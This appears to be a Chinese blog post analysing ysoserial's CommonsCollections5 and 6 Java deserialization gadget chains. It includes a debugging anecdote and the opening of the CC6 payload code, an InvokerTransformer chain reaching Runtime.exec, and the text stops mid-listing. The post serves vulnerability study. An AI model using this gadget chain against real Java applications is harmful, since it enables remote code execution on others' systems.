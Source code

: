 ```yaml
---
title: Ysoserial工具解读（四）
date: 2019-10-31 19:55:49
tags: [Java, RCE,反序列化]
categories: 漏洞分析
cover: java_cover.png
---
```


这篇博客介绍CommonsCollections5、6的构造方式，Apache的这个jar包（版本3.1、4.0）总算要分析完了。这两个java文件都利用了`org.apache.commons.collections`下的`TiedMapEntry`和`LazyMap`两个类。不同的是5在外层利用了`BadAttributeValueExpException`类，而6利用了`HashSet`类。



## CommonsCollections5的Payload构造方式

其实，CommonsCollections5的代码正是本系列第一篇[https://l1nf3ng.github.io/2019/03/27/Java反序列化漏洞解析/](https://l1nf3ng.github.io/2019/03/27/Java反序列化漏洞解析/) 所讲的那个构造方式，主要针对jdk8u60之后`sun.reflect.annotation.AnnotationInvocationHandler `这个类被删除的情况。其调用链这里不再重复分析，值得一提的是这次重新分析的过程中的乌龙事件：

> 我在IDEA的debug下给`javax.management.BadAttributeValueExpException`的`readObject()`方法打了断点，如下图：
>
> ![](debug1.png)
>
> 我发现代码在过了第一个断点后就弹出了计算器，一开始我怀疑之前看的分析文章都搞错了。后来仔细观察发现，在debug的变量观察窗口里的`TiedMapEntry`对象已经被调试器做了解析：
>
> ![](debug2.png)
>
> 所以，我的猜测是调试器的查看变量功能的进/线程在做解析时会去尝试get每个Map的Key-Value值，这就提前触发了利用链（为了验证这一猜测，我调整了一下CommonsCollections5的payload构造方法里代码的顺序，并打上断点观察其运行结果——发现调试器真得会去解析Map类对象，从而提前触发了攻击链）。
>
> ![](debug4.png)
>
> 因此，我去掉之前的断点，将新断点打在`LazyMap.get()`方法中，这次调用链没有提前触发，观察已经走过的调用栈也是对的，最后单步那行代码的确弹出了计算器！
>
> ![](debug3.png)

所以，以后分析和调试代码时还是要细心才行，不然很容易搞错。

## CommonsCollections6的Payload构造方式

```java
/*	我还是偷懒地先贴代码
*/
public Serializable getObject(final String command) throws Exception {

    final String[] execArgs = new String[] { command };

    final Transformer[] transformers = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] {
            String.class, Class[].class }, new Object[] {
            "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] {
            Object.class, Object[].class }, new Object[] {
            null, new Object[0] }),
        new InvokerTransformer("exec",
                               new Class[] { String.class }, execArgs),
        new ConstantTransformer(1) };

    Transformer transformerChain = new ChainedTransformer(transformers);

    final Map innerMap = new HashMap();
```